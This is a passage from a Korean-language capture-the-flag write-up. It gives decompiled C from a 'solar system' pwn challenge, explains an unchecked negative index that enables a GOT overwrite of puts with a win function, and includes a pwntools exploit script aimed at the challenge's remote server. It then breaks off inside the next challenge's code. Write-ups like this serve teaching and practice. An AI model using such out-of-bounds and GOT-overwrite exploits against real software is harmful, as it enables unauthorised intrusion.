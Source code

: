 ```C
        __isoc99_scanf("%lf", &v10);
        printf("Enter color (0-10): ");
        __isoc99_scanf("%d", &v11[1]);
        update(v7[0], v6[0], v7[0], v11[0], v4, v5, s[0]);
      }
      else if ( v3 == 2 )
      {
        print_solar_system(*(_QWORD *)v7);
      }
    }
  }
  _exit(0);
}
```

pie가 꺼져 있다. Partial RELRO이다. 행성 정보 업데이트를 하는데 음수 인덱스를 안 막아 놔서 `oob`가 발생한다. 그래서 got overwrite가 된다. puts got을 win 함수로 덮으면 된다. system got이 망가지긴 하는데, pie가 꺼져 있어서 그냥 다시 입력 해주면 된다.

### exploit.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./prob')
p = remote('3.37.174.221', 33333)
e = ELF('./prob')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', b'-3')
p.sendlineafter(b': ', p64(e.sym['win']) + b'a' * 8 + p64(0x401080))
p.sendlineafter(b': ', b'0')
#gdb.attach(p)
p.sendlineafter(b': ', b'0')
p.interactive()
```

---

## pwn/Magic Palette

```C
unsigned __int64 __fastcall print_palette(_QWORD *a1)
{
  int v1; // eax
  int v2; // eax
  unsigned __int16 v4; // [rsp+16h] [rbp-102Ah]
  unsigned int i; // [rsp+18h] [rbp-1028h]
  unsigned int j; // [rsp+1Ch] [rbp-1024h]
  int v7; // [rsp+24h] [rbp-101Ch]
  int v8; // [rsp+28h] [rbp-1018h]
  _BYTE v9[16]; // [rsp+30h] [rbp-1010h] BYREF
  unsigned __int64 v10; // [rsp+1038h] [rbp-8h]
  __int64 savedregs; // [rsp+1040h] [rbp+0h] BYREF

  v10 = __readfsqword(0x28u);
  handle_output(a1, v9);
  for ( i = 0; i <= 0x3F; ++i )
  {
    for ( j = 0; j <= 0x3F; ++j )
    {
      v4 = *(_WORD *)(*a1 + ((unsigned __int64)i << 7) + 2LL * j);
      if ( (v4 & 0x1000) != 0 )
```